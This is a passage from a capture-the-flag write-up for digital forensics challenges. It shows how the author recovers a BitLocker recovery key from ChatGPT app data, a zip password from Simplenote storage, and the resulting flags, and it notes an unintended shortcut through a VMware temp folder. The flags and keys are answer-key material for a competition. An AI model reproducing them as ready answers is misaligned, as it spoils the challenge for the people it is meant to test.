CSCV2025{your_computer_<DESKTOP NAME>_has_be3n_kicked_by_<hensh1n_registryValue>}
```

Using the provided disk image I located the desktop name in `System.evtx` and the registry value in the user's `NTUSER.DAT` (viewed with Registry Explorer):


That produced the flag:

```
CSCV2025{your_computer_DESKTOP-47ICHL6_has_be3n_kicked_byHxrYJgdu}
```

## Case AlphaS


### Thought process

Extracting all the files gave me a `.ad1` disk image, a `.pdf`, and a `.vhdk` external drive.


I read the `.pdf` first to get a general idea of what I was dealing with.


My goal was to unlock the BitLocker encrypted external drive - the `.vhdk`. I examined the disk to see what I had on hand.


#### ChatGPT and Simplenote Data

Scrolling through the files, I saw in the `Downloads` folder there were:
- `ChatGPT Installer.exe`
- `Firefox Installer.exe`
- `Git-2.51.0.2-64-bit.exe`
- `Simplenote Installer.exe`
- `VSCodeUserSetup-x64-1.104.2.exe`


My first thought was that the recovery key was stored in the `Simplenote` app. So I went hunting for the app's local storage. At first, I found no documentation about it storing data locally, but after some persistent searching, I was able to find it at `Users\windows\AppData\Packages`. There I located the data for both `Simplenote` and `ChatGPT`.


#### Bitlocker recovery key

Digging through the `ChatGPT` folder, I got access to the chat history which contained the BitLocker recovery key.

```text
028853-431640-166364-032076-217943-045837-542388-281017
```


Now I just needed to unlock the external drive, which revealed a `.zip` file that was password protected.


#### Zip password

Thinking the password might be in the notes, I went back and found the `Simplenote` data, and I found what I was looking for.


```text
5525b8d2d8534b716467493f3660b11e1c44b22cd0c97275619b94a0e5c82fda
```

Extracting it gave me:


Accessing the Pastebin gave me the flag.


```text
CSCV2025{h3Y_Th!s_|5_jUs7_tH3_bE9IN|\|iNg_dc8fb5bdedd10877}
```

### Unintended solution

Digging a bit more, I found the VMware DnD folder in `%TEMP%` which contained a zip file called `secret.zip` that was password protected.


This was the zip stored in the locked drive, which allowed me to skip going through the ChatGPT data.

## CovertS
